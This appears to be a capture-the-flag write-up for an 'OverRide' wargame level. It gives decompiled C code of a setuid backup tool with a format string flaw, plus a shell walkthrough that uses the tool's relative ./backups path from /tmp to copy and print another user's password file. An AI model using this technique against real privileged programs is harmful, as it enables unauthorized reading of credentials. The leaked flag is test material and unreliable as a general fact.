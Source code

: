 # Level08

## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>

__uint64_t log_wrapper(FILE *a1, const char *hardCoded, const char *argv1)
{
  char dest[264]; 
  __uint64_t v6; 

  v6 = __readfsqword(0x28u);
  strcpy(dest, hardCoded);
  snprintf(&dest[strlen(dest)], 254 - strlen(dest), argv1);
  dest[strcspn(dest, "\n")] = 0;
  fprintf(a1, "LOG: %s\n", dest);
  return __readfsqword(0x28u) ^ v6;
}

int  main(int argc, const char **argv, const char **envp)
{
  FILE *logFile; 
  FILE *stream; 
  int fd; 
  char buf; 
  char dest[104]; 

  buf = -1;
  if ( argc != 2 )
    printf("Usage: %s filename\n", *argv);
  logFile = fopen("./backups/.log", "w");
  if ( !logFile )
  {
    printf("ERROR: Failed to open %s\n", "./backups/.log");
    exit(1);
  }
  log_wrapper(logFile, "Starting back up: ", argv[1]);
  stream = fopen(argv[1], "r");
  if ( !stream )
  {
    printf("ERROR: Failed to open %s\n", argv[1]);
    exit(1);
  }
  strcpy(dest, "./backups/");
  strncat(dest, argv[1], 99 - strlen(dest));
  fd = open(dest, 193, 432LL);
  if ( fd < 0 )
  {
    printf("ERROR: Failed to open %s%s\n", "./backups/", argv[1]);
    exit(1);
  }
  while ( 1 )
  {
    buf = fgetc(stream);
    if ( buf == -1 )
      break;
    write(fd, &buf, 1uLL);
  }
  log_wrapper(logFile, "Finished back up ", argv[1]);
  fclose(stream);
  close(fd);
  return 0;
}
```

## Explanation

- This program seems to produce backups of existing files in a `./backups` folder.

- So immediately, we tried to launch it with the path of the .pass file:
```
level08@OverRide:~$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

- The problem here is that we don't have rights on the `./backups` folder so our backup of .pass cannot be created.

- After exploring several possibilities, we moved to /tmp where we can do anything we want and did the following exploit.

## Exploit 

```
level08@OverRide:~$ cd /tmp
level08@OverRide:/tmp$ mkdir -p ./backups//home/users/level09/
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat ./backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S

```